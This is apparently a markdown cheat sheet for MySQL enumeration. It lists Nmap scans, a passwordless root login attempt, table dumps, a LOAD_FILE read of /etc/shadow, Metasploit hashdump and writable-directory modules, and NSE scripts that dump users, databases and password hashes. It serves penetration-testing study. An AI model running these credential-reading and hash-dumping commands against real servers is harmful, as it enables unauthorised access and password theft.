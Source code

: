 
# 🐬 MySQL Enumeration 

## 🧠 1. Getting IP Address of Target

Use any technique like `ifconfig.me`, `ip a`, or Nmap host discovery to get the target IP.

---

## 🛰️ 2. Basic Nmap Scan of MySQL

```bash
nmap <IP>
```

🔎 Scans the host to check for open ports.

```bash
nmap <IP> -sV -p 3306
```

🔍 Scans port `3306` (default MySQL port) and tries to detect the service version.

---

## 🔐 3. Attempt to Login to MySQL

```bash
mysql -h <IP> -u root
```

☑️ Attempts to connect to the MySQL server as `root` without a password.

If login is successful:

```sql
SHOW DATABASES;
USE <database_name>;
SELECT * FROM authors;
SELECT LOAD_FILE('/etc/shadow');
EXIT;
```

📝 Notes:

* `SHOW DATABASES;` – Lists all databases.
* `USE <database_name>;` – Switch to the selected database.
* `SELECT * FROM authors;` – Dump data from `authors` table.
* `SELECT LOAD_FILE('/etc/shadow');` – Tries to read `/etc/shadow` file (possible only if file\_read permissions are misconfigured).
* `EXIT;` – Close MySQL shell.

---

## 💣 4. Using Metasploit for MySQL Enumeration

### 🔎 Writable Directory Scan

```bash
msfconsole
use auxiliary/scanner/mysql/mysql_writable_dirs
options
set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
set RHOSTS <IP>
set VERBOSE false
set PASSWORD ""
run
```

💡 **Purpose**: Scans for writable directories inside MySQL.

---

### 🧊 Hashdump from MySQL

```bash
use auxiliary/scanner/mysql/mysql_hashdump
options
set USERNAME root
set PASSWORD ""
exploit
```

🔐 Dumps password hashes from the MySQL server if accessible.

---

## 🔬 5. MySQL NSE Scripts with Nmap

### 🔓 Check for Empty Password

```bash
nmap <IP> -sV -p 3306 --script=mysql-empty-password
```

✔️ Checks if the MySQL server allows login with a blank password.

---

### 🧾 Get MySQL Server Info

```bash
nmap <IP> -sV -p 3306 --script=mysql-info
```

📋 Retrieves information about the MySQL server version and configuration.

---

### 👤 Get MySQL Users

```bash
nmap <IP> -sV -p 3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"
```

📍 Lists all users in MySQL using provided credentials.

---

### 🗄️ List Databases

```bash
nmap <IP> -sV -p 3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"
```

🗃️ Dumps the database names from the target MySQL server.

---

### ⚙️ MySQL System Variables

```bash
nmap <IP> -sV -p 3306 --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''"
```

🔧 Retrieves internal system variables and configurations.

---

### ✅ Audit MySQL Security (CIS Benchmark)

```bash
nmap <IP> -sV -p 3306 --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"
```

🛡️ Runs security audit checks on the MySQL server using CIS rules.

---

### 🔐 Dump MySQL Hashes

```bash
nmap <IP> -sV -p 3306 --script=mysql-dump-hashes --script-args="username='root',password=''"
```

🧂 Dumps the hashed passwords stored in the MySQL server.

---

### ❓ Run Custom Query

```bash
nmap <IP> -sV -p 3306 --script=mysql-query --script-args="query='SELECT COUNT(*) FROM book.authors;',username='root',password=''"
```

📊 Executes a custom query on the MySQL server.


---

